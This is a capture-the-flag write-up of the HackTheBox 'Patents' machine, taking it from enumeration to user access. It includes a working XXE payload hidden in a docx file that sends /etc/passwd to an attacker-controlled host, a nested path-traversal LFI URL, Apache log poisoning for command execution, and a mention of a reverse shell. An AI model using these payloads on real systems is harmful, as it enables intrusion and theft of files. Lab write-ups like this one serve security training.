# HackTheBox | Patents [User]



## Enumeration

We begin with an nmap scan. We find open TCP ports: 22, 80, 8888

```
# Nmap 7.80 scan initiated Fri May 15 20:51:44 2020 as: nmap -sV -sC -oA nmap/patents 10.10.10.173
Nmap scan report for 10.10.10.173
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:b6:84:a7:a7:f3:c2:4f:38:db:fc:2a:dd:26:4e:67 (RSA)
|   256 b1:cd:18:c7:1d:df:57:c1:d2:61:31:89:9e:11:f5:65 (ECDSA)
|_  256 73:37:88:6a:2e:b8:01:4e:65:f7:f8:5e:47:f6:10:c4 (ED25519)
80/tcp   open  http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: MEOW Inc. - Patents Management
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   Help, LPDString, LSCP: 
|_    LFM 400 BAD REQUEST
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.80%I=7%D=5/15%Time=5EBF473F%P=x86_64-pc-linux-gnu%r(LS
SF:CP,17,"LFM\x20400\x20BAD\x20REQUEST\r\n\r\n")%r(Help,17,"LFM\x20400\x20
SF:BAD\x20REQUEST\r\n\r\n")%r(LPDString,17,"LFM\x20400\x20BAD\x20REQUEST\r
SF:\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 15 20:53:25 2020 -- 1 IP address (1 host up) scanned in 100.41 seconds
```

We take a look at the webpage and find that we can upload Docx files that are converted to PDFs for us to download.

We upload a sample Docx file created with python and we are able to download the converted pdf.

```python
#!/usr/bin/python3 

from docx import Document

document = Document()

document.add_heading('Document Title', 0)

p = document.add_paragraph('this is some text')

document.save('valid.docx')
```

Once we upload the document we are able to download the pdf.



We can see the downloaded pdf contents exist as a file on the server.



We attempt XXE but are unsuccessful.

Our initial gobuster shows several directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.173/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/15 21:41:53 Starting gobuster
===============================================================
/index (Status: 200)
/profile (Status: 200)
/uploads (Status: 301)
/static (Status: 301)
/upload (Status: 200)
/release (Status: 301)
/vendor (Status: 301)
/patents (Status: 301)
/output (Status: 301)
Progress: 27859 / 220561 (12.63%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/05/15 21:47:56 Finished
===============================================================

```

Further enumeration reveals a changelog left by a developer in /releases.

We use ffuf with raft-large-files.txt to find the changelog left on the server with the name UpdateDetails.

```
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://10.10.10.173/release/FUZZ -t 100 -mc 200
```



UpdateDetails:
```
v1.2 alpha:
- meow@conquertheworld: Added ability to include patents. Still experimental, it's hidden.
v1.1 release:
- gbyolo@htb: Removed "meow fixes", they weren't real fixes. 
v1.0 release:
- meow@conquertheworld: Fixed the following vulnerabilities:
        1. Directory traversal
        2. Local file inclusion (parameter)
v0.9 alpha:
- meow@conquertheworld.htb: Minor fixes, fixed 2 vulnerabilities. The Docx2Pdf App is ready.
v0.7 alpha:
- gbyolo@tb: fixed conversion parameters. Meow's changes for custom folder should now work.
v0.7 alpja:
- meow@conquertheworld.htb: enabled entity parsing in custom folder
- gbyolo@htb: added conversion of all files, to generate pdf compliant from docx
v0.6 alpha:
- gbyolo@htb: enabled docx conversion to pdf. Seems to work!
```


This changelog tells us two things:
 - There is a potential vulnerability via LFI that was left unpatched
 - We have to exploit via parameter in the *custom* directory

## Initial Foothold

Taking a look at the structure of the Docx file we can see there is a cusomXML directory.



We find a potential exploit on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)



We inject the code into our ``` customXml/item1.xml ``` file:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.31/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<b:Sources xmlns:b="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" xmlns="http://schemas.openxmlformats.org/officeDocument/2006/bibliography" SelectedStyle="/APA.XSL" StyleName="APA"/>
```

Now we set up our local file that will be called ```dtd.xml```
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.31/dtd.xml?%data;'>">
```

We set up a python server and upload and convert our exploit. We get the contents of /etc/passwd encoded in base64.



We decode this and our response was valid. We can read information on the system!




We continue hunting for files and we are able to exfiltrate the config.php file at ```/var/www/html/docx2pdf/config.php```

```php
<?php
# needed by convert.php
$uploadir = 'letsgo/';

# needed by getPatent.php
# gbyolo: I moved getPatent.php to getPatent_alphav1.0.php because it's vulnerable
define('PATENTS_DIR', '/patents/');
?>
```

This points us to a new file. Upon browsing to the file, we can see that there is an **id** parameter.



We can exploit this again via LFI using a nested path traversal string:

```http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//etc/passwd```



We see that we can read the apache log file



We can poison this with netcat by injecting php code into the log, that is executed when we pass the parameter and command into the url.



Now we can browse to
```
http://10.10.10.173/getPatent_alpha1.0.php?c=whoami&id=....//....//....//....//var/log/apache2/access.log
```
to see the execute of ```whoami``` in the log.



We can use this to get a reverse shell.




## Pivoting to User

Now that we are on the box, we need to escalate to root of the container.

Using pspy, we are able to see the ouput of a script that runs that contains the root password of the docker container that we are in.



We use this password (removing the escape slashes in front of $) with
```
su root
```

And we have User!


